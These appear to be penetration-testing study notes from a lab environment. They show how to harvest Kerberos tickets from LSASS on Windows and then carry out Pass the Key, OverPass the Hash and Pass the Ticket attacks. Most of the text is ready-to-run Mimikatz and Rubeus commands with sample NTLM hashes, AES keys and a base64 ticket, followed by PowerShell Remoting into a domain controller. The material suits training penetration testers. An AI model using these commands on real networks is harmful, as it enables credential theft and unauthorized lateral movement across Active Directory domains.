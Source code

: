 
- On Windows, tickets are processed and stored by the LSASS (Local Security Authority Subsystem Service) process. 
- Therefore, to get a ticket from a Windows system, you must communicate with LSASS and request it. As a non-administrative user, you can only get your tickets, but as a local administrator, you can collect everything.

## Harvesting Kerberos Tickets from Windows
We need a valid Kerberos ticket to perform a Pass the Ticket (PtT). It can be:

- Service Ticket (TGS - Ticket Granting Service) to allow access to a particular resource.
- Ticket Granting Ticket (TGT), which we use to request service tickets to access any resource the user has privileges.



Note: 
1. The tickets that end with $ correspond to the computer account, which needs a ticket to interact with the Active Directory.
2. User tickets have the user's name, followed by an @ that separates the service name and the domain, for example: `[randomvalue]-username@service-domain.local.kirbi` .
3. If you pick a ticket with the service krbtgt, it corresponds to the TGT of that account.
4. 
```
At the time of writing, using Mimikatz version 2.2.0 20220919, if we run "sekurlsa::ekeys" it presents all hashes as des_cbc_md4 on some Windows 10 versions. Exported tickets (sekurlsa::tickets /export) do not work correctly due to the wrong encryption. It is possible to use these hashes to generate new tickets or use Rubeus to export tickets in base64 format.
```


### Mimikatz - Export Tickets

```powershell
mimikatz.exe privilege::debug "sekurlsa::tickets /export"
```

### Rubeus - Export Tickets

```powershell
Rubeus.exe dump /nowrap
```


## Pass the Key or OverPass the Hash
- The Pass the Key or OverPass the Hash approach converts a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full Ticket-Granting-Ticket (TGT).
- To forge our tickets, we need to have the user's hash
- we can use Mimikatz to dump all users Kerberos encryption keys using the module sekurlsa::ekeys. This module will enumerate all key types present for the Kerberos package.
- once we have access to the `AES256_HMAC` and `RC4_HMAC` keys, we can perform the OverPass the Hash or Pass the Key attack using Mimikatz and Rubeus.
- Modern Windows domains (functional level 2008 and above) use `AES` encryption by default in normal Kerberos exchanges. If we use a `rc4_hmac` (NTLM) hash in a Kerberos exchange instead of an` aes256_cts_hmac_sha1 (or aes128) key`, it may be detected as an "encryption downgrade." 

### Mimikatz - Extract Kerberos Keys

```powershell
mimikatz.exe privilege::debug "sekurlsa::ekeys"
```

### Mimikatz - Pass the Key or OverPass the Hash
```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f"
```
### Rubeus - Pass the Key or OverPass the Hash
Note: Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

```powershell
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

## Pass the Ticket (PtT)
Now that we have some Kerberos tickets, we can use them to move laterally within an environment.

### Rubeus - Pass the Ticket
```powershell
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi

# Pass the Ticket - Base64 Format

[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```

### Mimikatz - Pass the Ticket
```powershell
mimikatz.exe privilege::debug "kerberos::ptt 'C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi'"

```


### Mimikatz - PowerShell Remoting with Pass the Ticket

```powershell
mimikatz.exe privilege::debug "kerberos::ptt 'C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi'"

c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
```

### Rubeus - PowerShell Remoting with Pass the Ticket

```powershell
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option /ptt to import the ticket into our current session and connect to the DC using PowerShell Remoting.

```powershell
 Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```
